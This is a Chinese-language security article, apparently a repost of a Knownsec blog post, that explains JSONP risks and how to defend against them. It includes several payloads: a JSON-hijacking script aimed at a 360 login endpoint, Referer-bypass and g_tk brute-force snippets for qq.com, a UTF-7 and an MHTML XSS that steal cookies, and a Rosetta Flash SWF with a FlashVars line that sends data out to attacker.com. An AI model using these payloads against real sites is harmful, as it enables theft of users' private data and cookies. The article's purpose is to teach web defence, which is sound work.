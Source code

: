 **目录**

[关于 JSONP](#t0)

[一、JSON 劫持](#t1)

[二、Callback 可定义导致的安全问题](#t2)

[三、其他文件格式（ Content-Type ）与 JSON](#t3)

[四、防御](#t4)

* * *

摘自：[http://blog.knownsec.com/2015/03/jsonp\_security\_technic/](http://blog.knownsec.com/2015/03/jsonp_security_technic/)

**关于 JSONP**
------------

  
[JSONP跨域](https://blog.csdn.net/qq_36119192/article/details/82931250#2%E3%80%81JSONP%E8%B7%A8%E5%9F%9F)

安全问题一直都是伴随着业务发展而出现的，JSONP 的出现同样带来了各种各样的安全问题。本文对 JSONP 实现过程中带来的安全问题做了一些简单介绍。

### **一、JSON 劫持**

JSON 劫持又为“ JSON Hijacking ”，最开始提出这个概念大概是在 2008 年国外有安全研究人员提到这个 JSONP 带来的风险。其实这个问题属于 [CSRF](https://so.csdn.net/so/search?q=CSRF&spm=1001.2101.3001.7020)（ Cross-site request forgery 跨站请求伪造）攻击范畴。当某网站通过 JSONP 的方式来跨域（一般为子域）传递用户认证后的敏感信息时，攻击者可以构造恶意的 JSONP 调用页面，诱导被攻击者访问来达到截取用户敏感信息的目的。一个典型的 JSON Hijacking 攻击代码：

```
<script>      
function wooyun(v){      
    alert(v.username);      
}      
</script>      
<script src="http://js.login.360.cn/?o=sso&m=info&func=wooyun"></script>
```


这个是在乌云网上报告的一个攻击例子。当被攻击者在登陆 360 网站的情况下访问了该网页时，那么用户的隐私数据（如用户名，邮箱等）可能被攻击者劫持。

虽然这种攻击已经出现好几年了，但是目前在大的门户网站都还普遍存在，而且由于安全意识问题很多官方可能还不认为这是一个安全问题，上面提到的例子当时在乌云网站上 360 是忽视了的！

当然还是随着安全意识和技术水平的提高，很多甲方公司开始重视此类安全问题，开始着手研究解决方案。其中一个方案就是验证 JSON 调用的来源（ Referer ）。这个方案是主要利用了 <script> 远程加载 JSON 文件时会发送 Referer ，在网站输出 JSON 数据时判断 Referer 是不是白名单就可以进行防御！这个方法是可行的，但是具体实现过程中又容易导致两种常见的逻辑问题：

**1、Referer 过滤（正则）不严谨**

比如 http://www.qq.com/login.php?calback=cb 输出数据时,使用了 Referer 过滤。但是可惜过滤的时候只过滤了 Referer 里是否存在 qq.com 这样的关键词，那么攻击者可以听过构造 URL：http://www.qq.com.attack.com/attack.htm  或者 http://www.attack.com/attack.htm?qq.com 这样的页面来发起攻击实现绕过 Referer 防御。

**2、空 Referer**

在很多情况下，开发者在部署过滤 Referer 来源时，忽视了一个空 Referer 的过滤。一般情况下浏览器直接访问某 URL 是不带 Referer 的，所以很多防御部署是允许空 Referer 的。恰恰也就是这个忽视，导致了整个防御的奔溃。因为在通过跨协议调用 js 时，发送的 http 请求里 Referer 为空！ 跨协议调用的一个简单例子：

```
<iframe src="javascript:'<script>function JSON(o){alert(o.userinfo.userid);}</script><script src=http://www.qq.com/login.php?calback=JSON></script>'"></iframe>
```


代码里我们使用 <iframe> 调用 javscript 伪协议来实现空 Referer 调用 JSON 文件。

**3、token防御**

另外一种防御手段就是通过随机 token 来防御，这个技术在 qq 的网站上应用比较多，如：http://r.qzone.qq.com/cgi-bin/tfriend/friend\_show\_qqfriends.cgi?uin=\[QQ号码\]&g\_tk=\[随机token\] 来输出 JSON ，同样这个方案也是效的，但是同样可能出现防御实现的不严谨问题。如这个 token 可以暴力。如：

```
function _Callback(o) {      
    alert(o.items[0].uin);      
}      
for (i = 17008; i < 17009; i++) { //暴力循环调用      
    getJSON("http://r.qzone.qq.com/cgi-bin/tfriend/friend_show_qqfriends.cgi?uin=1111111&g_tk=" + i);      
}
```


当然以上的方式是单纯的针对“ JSON 劫持”本身的来展开的各种攻防战。但是在现实里，很多漏洞是配合组合来实现突破的，比如上面提到的限制 Referer+ 部署随机 token 实现都很完美，无懈可击！但是只要在该网站上出现一个 XSS 漏洞，那么利用这个 XSS 漏洞可能让你的防御体系瞬间崩溃！ 另外这里顺带提一点：以上的方法是一些通用实现“ JSON 劫持”的方法，但是现实中某些浏览器的一些特有的处理机制（如 CSS 加载，错误信息显示等），导致一些类似“ JSON 劫持”（攻击对象不一定是 JSON ）的攻击！

### **二、Callback 可定义导致的安全问题**

在本文开头介绍 JSON 原理的就说明了可能是为了方便前段开发调用，一般输出时都是可定义的，开头提到的 php 实现的代码：

```
//getUsers.php      
<?php      
$callback = $_GET['callback'];      
print $callback . '({"id" : "1","name" : "知道创宇"});';      
?>
```


也就是这个可定义化的 callback 名输出点又导致了各种安全问题，当然严格上来说里面提到的具体数据输出也是可以利用的，只是本文重点强调的 callback 这个输出点。

**1、Content-Type 与 XSS 漏洞**

在早期 JSON 出现时候，大家都没有合格的编码习惯。再输出 JSON 时，没有严格定义好 Content-Type（ Content-Type: application/json ）然后加上 callback 这个输出点没有进行过滤直接导致了一个典型的 XSS 漏洞，上面演示的 getUsers.php 就存在这个问题：

```
http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>
```


对于 Content-Type 来说早期还有一部分人比较喜欢使用 application / javascript  而这个头在 IE 等浏览器下一样可以解析 HTML 导致 XSS 漏洞。对于这种类型的漏洞，防御主要是从两个点去部署的：

**a、严格定义 Content-Type: application / json**

这样的防御机制导致了浏览器不解析恶意插入的 XSS 代码（直接访问提示文件下载）。但是凡事都有个案，在 IE 的进化过程中就出现过通过一些技巧绕过 Content-Type 防御解析 html ，比如在 IE6、7 等版本时请求的 URL 文件后面加一个 /x.html 就可以解析 html （ http://127.0.0.1/getUsers.php/x.html?callback=<script>alert(/xss/)</script>  ） 具体参考：http://hi.baidu.com/hi\_heige/item/f1ecde01c4af3ed61ef04646

**b、过滤 callback 以及 JSON 数据输出**

这样的防御机制是比较传统的攻防思维，对输出点进行 xss 过滤。又是一个看上去很完美的解决方案，但是往往都是“事与愿违”。当年( 2011 年)一个 utf7-BOM 就复活了 n 个 XSS 漏洞。这种攻击方式主要还是存在与 IE 里(注在 IE 较新版本里已经“修复”) 也就是当我们在 callback 点输出 +/v8 这样的 utf7-BOM 的时候， IE 浏览器会把当前执行的编码认为是 utf7 ,所以我们通过 utf7 提交的 XSS 代码会被自动解码并执行。如：

```
http://127.0.0.1/getUsers.php?callback=%2B%2Fv8%20%2BADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAYwByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADsAPAAvAHMAYwByAGkAcAB0AD4APAAvAGIAbwBkAHkAPgA8AC8AaAB0AG0APg-%20
```


其中：

```
%2B%2Fv8%20%2BADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAYwByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADsAPAAvAHMAYwByAGkAcAB0AD4APAAvAGIAbwBkAHkAPgA8AC8AaAB0AG0APg-%20
```


URLdecode 为：

```
+/v8+ADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAYwByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADsAPAAvAHMAYwByAGkAcAB0AD4APAAvAGIAbwBkAHkAPgA8AC8AaAB0AG0APg-
```


其中 +/v8  为 utf7-BOM ，后面的为我们注入的 utf-7 编码后的 XSS 代码的：

```
<html><body><script>alert(1);</script></body></html>
```


参考：[http://hi.baidu.com/hi\_heige/item/357831ab6932239a14107346](http://hi.baidu.com/hi_heige/item/357831ab6932239a14107346)

这次利用 utf7-BOM 的方法是一个非常有代表性的通用方法，IE 后面的升级也是做一定的防御，另外在开发者角度也给出了防御方法直接强制指定 Content-Type里的编码 ( Content-Type: application/json; charset=utf-8 )  对于现在的浏览器上，虽然没有比较通用的技巧，但是对于开发者本事过滤的机制一样可能存在各种绕过的可能。

看来上面提到的 a 和 b 两点的防御缺一都可能出问题，那么我们使用“ a + b 方案”，也就是两者都上是不是很安全了不会出现问题了呢？一切皆有可能，我们拭目以待！

### **三、其他文件格式（ Content-Type ）与 JSON**

**1、MHTML 与 JSONP**

在 2011 年 IE 曾经出现过一个听过 mhtml 协议解析跨域的漏洞：MHTML  Mime-Formatted Request Vulnerability  ( CVE-2011-0096 )  https://technet.microsoft.com/library/security/ms11-026 而当时的一个常见利用就是利用 JSONP 调用机制里的 Callback 函数名输出点：

```
<iframe src="mhtml:http://127.0.0.1/getUsers.php?callback=Content-Type%3A%20multipart%2Frelated%3B%20boundary%3D_boundary_by_mere%0D%0A%0D%0A--_boundary_by_mere%0D%0AContent-Location%3Acookie%0D%0AContent-Transfer-      
Encoding%3Abase64%0D%0A%0D%0APGJvZHk%2BDQo8aWZyYW1lIGlkPWlmciBzcmM9Imh0dHA6Ly93d3cuODB2d      
WwuY29tLyI%2BPC9pZnJhbWU%2BDQo8c2NyaXB0Pg0KYWxlcnQoZG9jdW1lbnQuY29va2ll      
KTsNCmZ1bmN0aW9uIGNyb3NzY      
29va2llKCl7DQppZnIgPSBpZnIuY29udGVudFdpbmRvdyA%2FIGlmci5jb250ZW50V2luZG93I      
DogaWZyLmNvbnRlbnREb2N1bWVudDsNCmFsZXJ0KGlmci5      
kb2N1bWVudC5jb29raWUpDQp9DQpzZXRUaW1lb3V0KCJjc      
m9zc2Nvb2tpZSgpIiwxMDAwKTsNC      
jwvc2NyaXB0PjwvYm9keT4NCg%3D%3D%0D%0A--_boundary_by_mere--%0D%0A!cookie"></iframe>
```


\[详见： 《Hacking with mhtml protocol handler》http://www.80vul.com/mhtml/Hacking%20with%20mhtml%20protocol%20handler.txt\]

这个点就充分利用了 callback 输出点直接输出一个 mhtml 文件格式，然后利用 <iframe> 调用 mhtml 标签解析并执行 html 及 javascript 代码，这也就是一个通用性的 XSS 漏洞（ UXSS ），随后微软紧急推出了解决方案及漏洞补丁程序！而对于开发者防御而已在微软推出安全补丁之前这个漏洞影响 Google 等国际大型网站，到时 Google 为了防御这类补丁，启用的防御措施是，在 JSON 输出 callback 时，在文件开头增加了多个换行回车让远程 mhtml 调用时解析失败。

在攻击角度来说，这个充分利用了计算机体系里各种文件格式识别机制，这个也和 Callback 直接在 json 文件开头输出的突然优势！在这个思维的引导下，后面还出现各种各样的文件格式加载带来的安全问题，比如 CSS 文件格式加载导致的类“ JSON 劫持”的安全问题、JS 加载及各种文件格式编码带来的安全问题等等。历史进程里往往会出现各种惊人的相识，JSONP 与文件格式的各种传奇还在上演...

**2、FLASH 与 JSONP**

该来的始终会来，只是没想到相似的场景上演到这么快!就在最近的一次 flash 安全更新 ( security bulletin APSB14-17\[http://helpx.adobe.com/security/products/flash-player/apsb14-17.html\] ) 里修复了一个安全漏洞：

These updates include additional validation checks to ensure that Flash Player rejects malicious content from vulnerable JSONP callback APIs ( CVE-2014-4671 ).

而这个漏洞因影响到 Google、Facebook、Tumblr 等国际大网站而倍受国内外媒体的关注。而这个攻击技术就和 JSONP 的 callback 点息息相关. 这个问题主要存在 HTML 通过<embed>、<object>调用远程 flash 文件时，会直接忽视 Content-Type 而 JSONP 的 callback 输出一般都在文件开头就输出，那么完全可以通过 callback 点输出一个 swf 的文件，然远程 html 调用并运行 swf 文件。如：

```
<script>      
// from http://50.56.33.56/blog/?p=242      
var flashvars = {};      
var params = {};                         
var attributes = {};      
var url="http://127.0.0.1/getUsers.php?callback=CWS%07%AA%01%00%00x%DADP%C1N%021%14%9C%ED%22-j0%21%24%EB%81%03z%E3%E2%1F%18XI%88%1E%607%C0%C1%8B%D9%ACP%91X%ECf%A9%01%BF%40N%1C%F7%E6%DD%CF%F1%8F%F0%B5K%E2%3BL%DFL%DA%E9%9B%B7%05%FF%05%82%0Chz%E8%B3%03U%AD%0A%AA%D8%23%E8%D6%9B%84%D4%C5I%12%A7%B3%B7t%21%D77%D3%0F%A3q%A8_%DA%0B%F1%EE%09gpJ%B2P%FA9U0%2FHr%AD%0Df%B9L%8D%9C%CA%AD%19%2C%A5%9A%C3P%87%7B%A9%94not%AE%E6%ED%2Bd%B96%DA%7Cf%12%ABt%F9%8E4%CB%10N%26%D2%C4%B9%CE%06%2A%5D%ACQ0%08%B4%1A%8Do%86%1FG%BC%96%93%F6%C2%0E%C9%3A%08Q%5C%83%3F2%80%B7%7D%02%2B%FF%83%60%DC%A6%11%BE%7BU%19%07%F6%28%09%1B%15%15%88%13Q%8D%BE%28ID%84%28%1F%11%F1%82%92%88%FD%B9%0D%EFw%C0V34%8F%B3%145%88Zi%8E%5E%14%15%17%E0v%13%AC%E2q%DF%8A%A7%B7%01%BA%FE%1D%B5%BB%16%B9%0C%A7%E1%A4%9F%0C%C3%87%11%CC%EBr%5D%EE%CA%A5uv%F6%EF%E0%98%8B%97N%82%B9%F9%FCq%80%1E%D1%3F%00%00%00%FF%FF%03%00%84%26N%A8";      
swfobject.embedSWF(url, "content", "400", "200", "10.0.0", "expressInstall.swf", flashvars, params, attributes);      
</script>
```


这样早在 2012 年提出的通过 callback 输出的 swf 文件流，的实际效果是在被攻击的网站上存放了一个恶意的 swf 文件，而 html 远程调用这个 swf 文件可以直接导致 CSRF 攻击.  
\[具体上传 flash 文件带来的 CSRF 攻击请参考我写的《 Flash+Upload Csrf  攻击技术》 http://blog.knownsec.com/2014/06/flashupload\_csrf\_attacking/\]

细心的朋友可能发现上面代码里 callback 输出的 swf 文件流里存着各种各样的特殊字符，这个对于上面提到的“ b、过滤 callback 以及 JSON 数据输出”防御方案直接给拦截了，对于 Goolge 、Facebook 这样久经考验的大网站来说，防御应该不在话下！

在 flash 的更新“ security bulletin APSB14-17 ”发布后，该漏洞发现者给出了详细的漏洞细节其中一个亮点就是作者实现了一个纯 alphanumeric 输出的 swf 文件的方法，如：

```
<object type="application/x-shockwave-flash"      
data="https://vulnerable.com/endpoint?callback=CWSMIKI0hCD0Up0IZ      
UnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7iiudIbEAt333swW0ssG03sDDtDDDt0      
333333Gt333swwv3wwwFPOHtoHHvwHHFhH3D0Up0IZUnnnnnnnnnnnnnnnnnnnUU      
5nnnnnn3Snn7YNqdIbeUUUfV13333333333333333s03sDTVqefXAxooooD0Ciud      
IbEAt33swwEpt0GDG0GtDDDtwwGGGGGsGDt33333www033333GfBDTHHHHUhHHHe      
RjHHHhHHUccUSsgSkKoE5D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7YN      
qdIbe13333333333sUUe133333Wf03sDTVqefXA8oT50CiudIbEAtwEpDDG033sD      
DGtwGDtwwDwttDDDGwtwG33wwGt0w33333sG03sDDdFPhHHHbWqHxHjHZNAqFzAH      1
ZYqqEHeYAHlqzfJzYyHqQdzEzHVMvnAEYzEVHMHbBRrHyVQfDQflqzfHLTrHAqzf      1
HIYqEqEmIVHaznQHzIIHDRRVEbYqItAzNyH7D0Up0IZUnnnnnnnnnnnnnnnnnnnU      1
U5nnnnnn3Snn7CiudIbEAt33swwEDt0GGDDDGptDtwwG0GGptDDww0GDtDDDGGDD      1
GDDtDD33333s03GdFPXHLHAZZOXHrhwXHLhAwXHLHgBHHhHDEHXsSHoHwXHLXAwX      1
HLxMZOXHWHwtHtHHHHLDUGhHxvwDHDxLdgbHHhHDEHXkKSHuHwXHLXAwXHLTMZOX      1
HeHwtHtHHHHLDUGhHxvwTHDxLtDXmwTHLLDxLXAwXHLTMwlHtxHHHDxLlCvm7D0U      1
p0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAtuwt3sG33ww0sDtDt0      1
333GDw0w33333www033GdFPDHTLxXThnohHTXgotHdXHHHxXTlWf7D0Up0IZUnnn      1
nnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAtwwWtD333wwG03www0GDGpt03w      1
DDDGDDD33333s033GdFPhHHkoDHDHTLKwhHhzoDHDHTlOLHHhHxeHXWgHZHoXHTH      2
No4D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAt33wwE03GDDG      2
wGGDDGDwGtwDtwDDGGDDtGDwwGw0GDDw0w33333www033GdFPHLRDXthHHHLHqee      2
orHthHHHXDhtxHHHLravHQxQHHHOnHDHyMIuiCyIYEHWSsgHmHKcskHoXHLHwhHH      2
voXHLhAotHthHHHLXAoXHLxUvH1D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3      2
SnnwWNqdIbe133333333333333333WfF03sTeqefXA888ooooooooooooooooooo      2
oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo      2
oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo      2
ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo8      2
88888880Nj0h"      2
style="display: none">      3
<param name="FlashVars"      3
value="url=https://vulnerable.com/account/sensitive_content_logged_in      3
&exfiltrate=http://attacker.com/log.php">      3
</object>
```


具体请参考：http://miki.it/blog/2014/7/8/abusing-jsonp-with-rosetta-flash/

所以对于纯 alphanumeric 的输出来说，那些针对 XSS 的过滤显然是可以直接忽略，这个漏洞也就是证明了上面我们提到的“ a + b 方案”直接绕过了！

### **四、防御**

通过上面的攻防对抗演练，很多开发者可能会感觉有点悲剧的味道，各种防御机制好像都有办法绕过。这里我想到一个真理：没有绝对的安全！那么我们防御的意义在哪里呢？我认为防御的意义就是虽然没办法让开发的程序最安全（绝对安全），但是可以让它更安全！提高攻击者的技术成本的门槛是安全防御的一个主要的重要的方向。我们回到具体的 JSONP 防御上可以总结如下几点：

> 1、严格安全的实现 CSRF 方式调用 JSON 文件：限制 Referer 、部署一次性 Token 等。  
> 2、严格安装 JSON 格式标准输出 Content-Type 及编码（ Content-Type : application/json; charset=utf-8 ）。  
> 3、严格过滤 callback 函数名及 JSON 里数据的输出。  
> 4、严格限制对 JSONP 输出 callback 函数名的长度(如防御上面 flash 输出的方法)。  
> 5、其他一些比较“猥琐”的方法：如在 Callback 输出之前加入其他字符(如：/\*\*/、回车换行)这样不影响 JSON 文件加载，又能一定程度预防其他文件格式的输出。还比如 Gmail 早起使用 AJAX 的方式获取 JSON ，听过在输出 JSON 之前加入 while(1) ;这样的代码来防止 JS 远程调用。

相关文章：[读取型CSRF-需要交互的内容劫持](https://gh0st.cn/archives/2018-03-22/1)